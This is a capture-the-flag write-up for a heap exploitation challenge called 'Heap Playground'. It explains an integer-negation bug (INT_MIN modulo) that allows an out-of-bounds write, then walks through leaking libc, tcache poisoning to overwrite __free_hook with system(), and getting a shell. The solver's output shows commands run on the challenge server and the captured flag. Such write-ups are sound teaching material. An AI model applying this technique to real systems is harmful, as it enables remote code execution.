

# Day 11 - Heap Playground - pwn, heap

> Just another heap challenge

Service: nc 3.93.128.89 1215

Download: [a0a20bae50c95c9b4d2062d166134a42a878ce3d226aa5af07630188b5745c15-heap_playground.tar.gz](https://advent2019.s3.amazonaws.com/a0a20bae50c95c9b4d2062d166134a42a878ce3d226aa5af07630188b5745c15-heap_playground.tar.gz)

Mirror: [heap_playground](./static/heap_playground)

## Analysis

As the name, category, and description suggest this is a heap challenge. As with most heap challenges, we have a binary with a menu which lets us allocate, free, print, or edit a chunk of data. Loading the binary up in Ghidra, I went ahead and looked at each of these to try and find a bug which would let us read or write somewhere outside the bounds of an allocated buffer:


The `alloc_chunk` function (below) looked pretty standard. We can see that a chunk is allocated with a 16 byte header structure, and some data is written to it. Additionally, the chunks look like they're being stored in a linked list with a "head" chunk somewhere in the data section. But as far as bugs go there isn't anything out of place in this function.


Similarly, for free chunk, we see that the program walks the linked list, but as far as I can tell it correctly dereferences, checks the edge cases for the "head" chunk, and eventually frees the data.


Next up is the print function. This _does_ do a puts() so assuming that we can write something useful then we will be able to get an out-of-bounds read. But for now, since the buffers seem to be NULL-terminated correctly we're stuck.



Finally, we get to the edit function. This one is a bit interesting. It takes an index, negates it if its less than zero, reduces it modulo the chunk size, and then writes one character at the specified offset. Here's our bug.


It's worth mentioning what the linked list data structure looks like on the heap. From my disassembly, I found that it was formatted as:

```
struct {
	int chunk_id; // 4 bytes
	int chunk_size; // 4 bytes
	void *next_chunk; // 8 bytes
	uchar chunk_data[]; // variable length
}
```
As a final note in this section, I'll also mention, that as usual I setup a docker container to run the binary locally. The libc provided with this challenge matched that of Ubuntu 18.04, so I used that as my base OS. The Dockerfile I used with the commands to build and run it are shown below. The reason I'm using the "privileged" options is that I often like to attach a debugger (gdb) to the process while I'm developing an exploit to observe memory and look at how it works live.

```
# docker build -t advent2019-1211 .
# docker run -it --cap-add=ALL -p 127.0.0.1:1211:1211 advent2019-1211
FROM ubuntu:18.04

RUN apt update && apt install -y gdb socat net-tools
RUN useradd -u 999 -m ctf
ADD heap_playground /home/ctf
RUN echo 'theflag' > /home/ctf/flag
WORKDIR /home/ctf
CMD socat tcp-l:1211,fork exec:/home/ctf/heap_playground
```

## Out of Bounds Write

Looking closely at the edit function again, we can see that the program is doing this arithmetic on a 4-byte value:

```c
void *chunk; // actually a structure
char char_value; // user provided
int char_index; // user provided
int new_char_index;
if (char_index < 0)
	new_char_index = -char_index;
memset(&chunk->data[new_char_index % chunk->size], char_value, 1);
```

This negation property immediately made me think of the edge cases around arithmetic with 32-bit numbers. More specifically, negation is typically done as two operations - a bit flip (~num) followed by an addition of 1. So for something like -1 (0xffffffff) you have `(~0xffffffff = 0) + 1 = 1`. However, there is one number (0x80000000) for which this operation doesn't actually negate the value. That's because inverting the bits and adding 1 will give you the same value in return, and this is in fact still a negative value.

With this in mind and the fact that we can allocate chunks of size 1 to 0x400, I checked each size in the operation (0x80000000 % size) to see which negative offset would work best for performing an out of bound write. The size 17 (or 0x11) seems to work best, as that modular reduction gives us -9 which, when indexed off of the `chunk_data` array in a chunk will overlap exactly with the top byte of the `chunk_size`. If we can then write a large value to `chunk_size` then we'll effectively be able to write to any byte after our allocation on the heap, giving us almost complete control for a heap exploit. So to summarize, we now have the following:

* allocate new chunk (chunk\_id of 1) of size 17
* edit byte offset 0x80000000 in that chunk to have value a large byte value
* use chunk 1 to write anywhere on the heap

## Code Execution

At this point, to get code execution we still need to jump to an address we control reliably. One method to do this is to overwrite the free_hook pointer in libc. By default, this pointer is NULL, but if it does contain any address, then the program will attempt to jump to that address instead of calling the standard libc free() function.

To find the address, we can allocate a large chunk of memory (~0x400 bytes should do) and free it so that its freed contents will contain some libc addresses. Using these we can calculate the base address of libc in memory (since its likely randomized), and then calculate the address of the free_hook and system function call.

To actually write to an arbitrary address I used the [tcache poisioning](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_poisoning.c) technique for glibc 2.26. This technique takes advantage of the way the "tcache" improves performance by writing the next available chunk of the same size to the previously freed chunk of the same size. The full POC and description can be seen in the link above. For our purposes, I chose to create a chunk of size 0xf0, free it, and then use my out of bounds write to write the address of "free_hook" minus 0x10 (for the structure header in this challenge). Then, when two new blocks of the same size are allocated, the second will allocate exactly where we need it near the "free_hook". Once its allocated we get to write some contents, so we'll write the address of system() in libc.

At this point, all we'll have is the ability to run a command assuming we can put it at the beginning of a chunk that we're freeing. However, because the heap structures we're creating are structures and not just data buffers, the "chunk_id" is at the beginning of the block to be freed, not our data.

To solve this, I decided to create a _bunch_ of allocations and then free block with id 0x6873. This value represented as a string is "sh" which corresponds to the system shell. Unfortunately, allocating this many blocks takes a long time. On my local setup with [my solution script](./solutions/day11_solver.py) the whole process takes just over a minute, but testing against the real server takes about an hour. At this point I had a solution and just had to wait. Had I wanted to speed things up, I could have done a little more arithmetic to lookup the `glob_id` variable in the process' memory and alter it, but with a solution in hand it ended up just being easier to wait. The [full script](./solutions/day11_solver.py) output is given below.

```
$ ./solutions/day11_solver.py 
Creating 0x6873 allocations...
Creating 0x0064, time remaining 3047.7 seconds
Creating 0x00c8, time remaining 3059.1 seconds
Creating 0x012c, time remaining 3089.6 seconds
Creating 0x0190, time remaining 3085.0 seconds
Creating 0x01f4, time remaining 3081.8 seconds

<snip>


Creating 0x66bc, time remaining 50.3 seconds
Creating 0x6720, time remaining 38.8 seconds
Creating 0x6784, time remaining 27.4 seconds
Creating 0x67e8, time remaining 15.9 seconds
Creating 0x684c, time remaining 4.5 seconds
b'Chunk 3:\naaaaaaaaaaaaaaaa'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAA'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAA!\x04'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAA'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAA\xa0|s\xd7P\x7f'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAAAAP\x7f'
b'Chunk 3:\naaaaaaaaaaaaaaaaAAAAAAAAAAAAAAAAAAAAAAAA\xa0|s\xd7P\x7f'
libc_addr 0x7f50d7737ca0
libc_base 0x7f50d734c000
__libc_system = 0x7f50d739b440
__free_hook =  0x7f50d77398e8
b'Created chunk 26746\n1. Create chunk\n2. Delete chunk\n3. Print chunk\n4. Edit chunk\n5. Exit\nChoice: '
>> b'2\n'
b'ID of chunk: '
>> b'25705\n'
b'uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)\nChunk deleted!\n1. Create chunk\n2. Delete chunk\n3. Print chunk\n4. Edit chunk\n5. Exit\nChoice: '
>> b'2\n'
b'ID of chunk: '
>> b'26739\n'
>> b'id\n'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

>> b'ls -al\n'
total 32
drwxr-xr-x 1 root root  4096 Dec 11 11:55 .
drwxr-xr-x 1 root root  4096 Dec 11 11:55 ..
-rw-rw-r-- 1 root root    40 Dec 11 11:55 flag
-rwxrwxr-x 1 root root 17248 Dec 11 11:55 heap_playground

>> b'cat flag\n'
AOTW{d0_y0u_kn0w_th3_l3bl4nc14n_p4r4d0X}
>> b'ps aux\n'
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   4628   852 ?        Ss   Dec11   0:00 /bin/sh -c /usr/sbin/inetd -d
root         6  0.0  0.0  31872  3184 ?        S    Dec11   0:18 /usr/sbin/inetd -d
nobody   17302  0.0  0.0   8804   932 ?        Ss   17:23   0:00 /usr/bin/timeout 3600 /opt/heap_playground/heap_playground
nobody   17303  0.2  0.0   5308  2324 ?        S    17:23   0:07 /opt/heap_playground/heap_playground
nobody   17306  0.0  0.0   4628   864 ?        S    18:14   0:00 sh -c sh
nobody   17307  0.0  0.0   4628   880 ?        S    18:14   0:00 sh
nobody   17311  0.0  0.0  34400  2996 ?        R    18:14   0:00 ps aux
```

As the flag suggests, the negation issue is known as the "Leblancian Paradox".

